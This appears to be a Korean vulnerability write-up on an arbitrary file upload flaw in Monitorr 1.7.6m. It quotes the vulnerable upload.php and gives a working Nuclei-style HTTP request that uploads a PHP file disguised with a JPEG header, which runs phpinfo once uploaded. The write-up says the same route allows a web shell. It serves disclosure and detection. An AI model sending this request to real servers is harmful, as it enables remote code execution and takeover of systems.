


## URL

https://xz.aliyun.com/t/13401?time__1311=mqmxnDBQ3QuDlxGgx%2BxCqptjQeP7qqPwD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fsearch%3Fkeyword%3Dcve-2024

## Target

- Monitorr 1.7.6m

## Explain

웹사이트와 애플리케이션 상태를 원격으로 모니터링하는 웹 애플리케이션 Monitorr에서 파일 업로드 취약점이 발견되었습니다.

```
/* assets/php/upload.php */
<?php
    $target_dir = "../data/usrimg/";
    $target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
    $uploadOk = 1;
    $imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    $rawfile = $_FILES["fileToUpload"]["name"];

    echo "<div id='uploadreturn'>";

        if($check !== false) {
                echo "File " . $rawfile . " is an image: " . $check["mime"] ;
                    echo "<br>";
                $uploadOk = 1;
            } 
        // --snip--     
        else {
            if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], strtolower($target_file))) {
                echo "<div id='uploadok'>";
                    echo "File ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded to: " . strtolower($target_file) ;
                echo "</div>";
            }  
			 // --snip--
?>
```
사용자가 파일을 업로드할 경우 `assets/php/upload.php` 파일 내의 `getimagesize()` 함수에서 업로드한 파일 형식을 확인합니다.

이때, `getimagesize()` 함수는 파일 확장자나 내용을 검증하지 않고, 파일 MIME 헤더 타입을 통해 파일의 형식을 확인합니다.

따라서, 공격자는 파일 MIME 헤더 타입을 이미지 파일(JPEG)로 속이고 파일에 웹 쉘과 같은 악성코드를 넣어 서버에 업로드 할 수 있습니다.

```
http:
- raw:
  - |
    POST /assets/php/upload.php HTTP/1.1
    Host: {{Hostname}}
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMmx988TUuintqO4Q
    Content-Length: 1194

    ------WebKitFormBoundaryMmx988TUuintqO4Q
    Content-Disposition: form-data; name="fileToUpload"; filename="info.php"
    Content-Type: image/jpeg

    {{base64_decode("/9j/4AAQSkZJRgABAQAAAQABAAD/2wBDAAgGBgcGBQgHBwcJCQgKDBQNDAsLDBkSE
    w8UHRofHh0aHBwgJC4nICIsIxwcKDcpLDAxNDQ0Hyc5PTgyPC4zNDL/2wBDAQkJCQwLDBgNDRgyIRwhMjI
    yMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjL/wAARCAABAAEDASIAA
    hEBAxEB/8QAHwAAAQUBAQEBAQEAAAAAAAAAAAECAwQFBgcICQoL/8QAtRAAAgEDAwIEAwUFBAQAAAF9AQI
    DAAQRBRIhMUEGE1FhByJxFDKBkaEII0KxwRVS0fAkM2JyggkKFhcYGRolJicoKSo0NTY3ODk6Q0RFRkdIS
    UpTVFVWV1hZWmNkZWZnaGlqc3R1dnd4eXqDhIWGh4iJipKTlJWWl5iZmqKjpKWmp6ipqrKztLW2t7i5usL
    DxMXGx8jJytLT1NXW19jZ2uHi4+Tl5ufo6erx8vP09fb3+Pn6/8QAHwEAAwEBAQEBAQEBAQAAAAAAAAECA
    wQFBgcICQoL/8QAtREAAgECBAQDBAcFBAQAAQJ3AAECAxEEBSExBhJBUQdhcRMiMoEIFEKRobHBCSMzUvA
    VYnLRChYkNOEl8RcYGRomJygpKjU2Nzg5OkNERUZHSElKU1RVVldYWVpjZGVmZ2hpanN0dXZ3eHl6goOEh
    YaHiImKkpOUlZaXmJmaoqOkpaanqKmqsrO0tba3uLm6wsPExcbHyMnK0tPU1dbX2Nna4uPk5ebn6Onq8vP
    09fb3+Pn6/9oADAMBAAIRAxEAPwD5/ooooA//2Tw/PXBocGluZm8oKTs/Pg==")}}
				                      ↑↑<?=phpinfo();?>↑↑
    ------WebKitFormBoundaryMmx988TUuintqO4Q--
  unsafe: false
  cookie-reuse: false
  matchers-condition: or
  matchers:
  - type: word
    part: body
    words:
    - usrimg/info.php
    condition: or
```
공격자는 위 HTTP 요청을 통해 서버에 악의적인 파일을 업로드할 수 있습니다.

multipart/form-data을 사용해 `info.php` 파일을 image/jpeg 형식으로 서버에 업로드합니다. 
이때, `info.php` 파일의 MIME 헤더 타입은 JPEG 되어 있지만 파일 안에는 PHP 코드(`<?=phpinfo();?>`)가 포함되어 있습니다.



Request를 통해 파일 안에 PHP 코드(`<?=phpinfo();?>`)가 포함되어 있는 걸 확인할 수 있습니다.

Response로부터 서버에 업로드된 경로를 확인할 수 있습니다.


서버에 업로드된 `info.php` 파일에 접근할 경우, `phpinfo()` 함수가 실행되어 서버 php 설정 및 버전 정보를 확인할 수 있습니다.

따라서, 공격자는 취약점을 통해 웹 쉘을 타겟 시스템에 업로드하고 시스템 권한을 획득할 수 있습니다.

## Reference

- [Monitorr](https://github.com/Monitorr/Monitorr)